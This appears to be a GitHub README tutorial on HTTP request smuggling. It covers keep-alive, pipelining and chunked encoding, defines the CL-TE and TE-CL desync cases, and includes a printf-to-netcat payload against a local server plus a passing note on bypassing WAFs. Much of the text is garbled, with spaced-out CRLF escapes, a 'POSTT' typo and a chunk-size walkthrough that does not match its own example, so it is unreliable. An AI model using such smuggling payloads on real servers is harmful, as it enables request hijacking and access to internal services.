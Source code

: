 # HTTP-Smuggling 
![20191205171217](https://user-images.githubusercontent.com/25066959/70326865-8d21ea00-1803-11ea-8362-e9a51d7937d2.jpeg)    

### Inspiration: In Defcon 27 in 2019, @James Kettle proposed HTTP Desync Attacks: Smashing into the Cell Next Door ), explaining how to use PayPal's vulnerabilities to be discovered using HTTP Smuggling technology.           

#### Things we need to understand to understand this attack go over Transfer encoding, Message Body, Pipelining.

### Quick what this attack vector about?
The HTTP Smuggling attack is based on the inconsistency between the reverse proxy and the backend server in parsing and processing HTTP requests. Using this difference, we can “embed” another HTTP request in order to achieve our purpose of “smuggling” the request. It directly shows that we can access intranet services or cause some other attacks.    

Kinda how it works:   
Each time a client makes an HTTP request it needs to establish a TCP connection with the server. Essentially we need to obtain the content of a web page, not only requested HTML documents but also various resources like Images, JS, CSS. The load overhead is so great actually that this is the reason `Keep-Alive` and `Pipeline` was introduced in HTTP 1.1.     

#### Keep-Alive
http/1.1 `Keep-Alive` allows multiple requests and responses to be hosted on a single connection. The HTTP request tells the server after receiving the HTTP request not to close the TCP connection and reuse this TCP connection. this essentially reduces TCP handshakes and server overhead. that being said, `Connection: close` will interrupt the TCP connection after the communication is completed.    

#### Pipeline 
After you have `Keep-Alive`, there will be follow-up Pipeline. Here, the client can send its own HTTP request without waiting for the response from the server. After receiving the request from the server, it follows a FIFO mechanism to send the request. This corresponds strictly to the response, sent to the client. Today, browsers are not enabled Pipeline by default, but general servers provide Pipleline support for them.    

![electrical-electronic-systems-HTTP-with-without-pipelining-5-193-g002](https://user-images.githubusercontent.com/25066959/70337810-c7968180-1819-11ea-82a1-ee8a395f3ba5.png)

We can clearly see that after using the pipeline, there is no need to wait for the previous request to complete its response before processing the second request. This is a bit of asynchronous processing.

#### Message Body
https://tools.ietf.org/html/rfc7230#section-3.3   
This is used to carry the entity-body associated with the request / response. It's different from the message-body. If you don't know what this is just read the RFC above 

#### Transfer-Encoding
This is pretty much the same as the content-transfer-encoding field of the MIME (Multipurpose Internet Mail Extensions) which is used to enable safe transport of binary data over a 7-bit transport service. In HTTP's case, Transfer-Encoding is primarily intended to accurately delimit a dynamically generated payload. And to distinguish payload encodings that are only applied for transport efficiency or security from those that are characteristics of the selected resource.     
You’ll find in the link below the list of several attributes. 
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding    

For HTTP-Hijacking we focus on `chunked transfer encoding` it's not the first time this vector is used in attacks… you can also use this field to bypass some of the WAF which is also an interesting bypass technique.     

Regardless refer to this RFC to learn more about `Chunked Transfer Coding` https://tools.ietf.org/html/rfc7230#section-4.1    

All we need to understand is it's structure. Also refer to wikipedia https://en.wikipedia.org/wiki/Chunked_transfer_encoding. So for example if we want to use chunked to send the following message 

`Buzzwords in \ r \ n \ r \ n chunks.`   
We can send it like this:
 ```
POSTT / xxx HTTP / 1.1
Host : xxx
Content-Type : text / plain
Transfer-Encoding : chunked

7 \ r \ n
Buzz \ r \ n
8 \ r \ n
words \ r \ n
e \ r \ n
in \ r \ n \ r \ nchunks. \ R \ n
0 \ r \ n
\ r \ n
```
For a brief explanation, we use `\r\n` (CRLF injection (look it up)) , so here `\r\n`  are two bytes ; the first number 4 indicates that there will be 4 bytes of data, which is the 4 letters of Buzz, and then according to RFC The document standard, the letter Buzz part needs to be followed by the` \r\n` chunk-data part, the number 4 needs to be followed by the `\r\n` chunk-size part, and the number is a hexadecimal number, such as the third data.    

```
e \ r \ n
in \ r \ n \ r \ n chunks. \ r \ n
```
Here among the first space data is present `\r\n` count of two characters, the last `\r\n` data representing the end, this is the case, a first space in bytes + 2 bytes + 2 `\r\n` count 4 bytes + chunks. 7 Bytes = 14 bytes. The hexadecimal representation is 14 which is e.
The last one `0\r\n\r\n` indicates the end of the chunk section.
#### So what? 
In itself, these things are not harmful, and they are used to increase the network transmission rate in various ways, but in some special cases, some corresponding security problems will occur.    

So reverse proxy and back-end server will not use pipeline technology, or even keep-alive. Which sucks for us attackers. The measures taken by the reverse proxy is to reuse the TCP connection, because for the reverse proxy and back-end server IPs are relatively fixed, and requests from different users establishing a link with the back-end server through the proxy server, and it is logical to reuse the TCP link between the two. Isn't really a thing?    

![Capture](https://user-images.githubusercontent.com/25066959/70369350-e6326200-1885-11ea-9549-fdabe27a7917.PNG)   

![Capture](https://user-images.githubusercontent.com/25066959/70369415-00207480-1887-11ea-9b6c-427b16f6a648.PNG)

So smuggling 
![Capture](https://user-images.githubusercontent.com/25066959/70369423-17f7f880-1887-11ea-9222-8346c4ad43f8.PNG)

Therefore. When we send a vague HTTP request to the proxy server, the proxy server may consider this to be an HTTP request, and then forward it to the backend origin server, but the origin server After parsing and processing, only a part of it is considered as a normal request is ‘accepted’ but this includes the remaining part smuggled request. When this part affects the request of a normal user, an HTTP smuggling attack is implemented.

#### The Attack

Methodology: We know that both Content-Length and Transfer-Encoding can be used 
as a way to process the body when transmitting POST data.    
 
Terms we’ll be using:
`CL-TE` means that Front uses Content-Length first, and Backend gives priority to Transfer-Encoding.   
`TE-CL` means that Front will give priority to Transfer-Encoding, and Backend will give priority to Content-Length.    

In addition, Front represents a typical front-end server such as a reverse proxy, and Backend represents a back-end business server that processes requests. In the following \r\n, CRLF is replaced by two bytes.
	
```
printf 'GET / HTTP / 1.1 \ r \ n' \
'Host: localhost \ r \ n' \
'Content-length: 56 \ r \ n' \
'Transfer-Encoding: chunked \ r \ n' \
'Dummy: Header \ r \ n \ r \ n ' \
' 0 \ r \ n ' \
' \ r \ n ' \
' GET / tmp HTTP / 1.1 \ r \ n ' \
' Host: localhost \ r \ n ' \
' Dummy: Header \ r \ n ' \
' \ r \ n ' \
' GET / tests HTTP / 1.1 \ r \ n ' \
' Host: localhost \ r \ n ' \
' Dummy: Header \ r \ n ' \
' \ r \ n ' \
| nc -q3 127.0.0.1 8080
```   
The above correct resolution should be resolved into three requests:    
```
GET / HTTP / 1.1
Host: localhost
Content-length: 56
Transfer-Encoding : chunked
Dummy: Header

0
``` 
```
GET / tmp HTTP / 1.1
Host: localhost
Dummy: Header
```
```
GET / tests HTTP / 1.1
Host: localhost
Dummy: Header
```
If there is a TE & CL priority problem, it will be parsed into two requests:    
```
GET / HTTP / 1.1 [CRLF]
Host: localhost [CRLF]
Content-length: 56 [CRLF]
Transfer-Encoding : chunked [CRLF] (ignored and removed, hopefully)
Dummy: Header [CRLF]
[CRLF]
0 [CRLF] (start of 56 bytes of body)
[CRLF]
GET / tmp HTTP / 1.1 [CRLF]
Host: localhost [CRLF]
Dummy: Header [CRLF] (end of 56 bytes of body, not parsed)
```
```
GET / tests HTTP / 1.1
Host: localhost
Dummy: Header
```
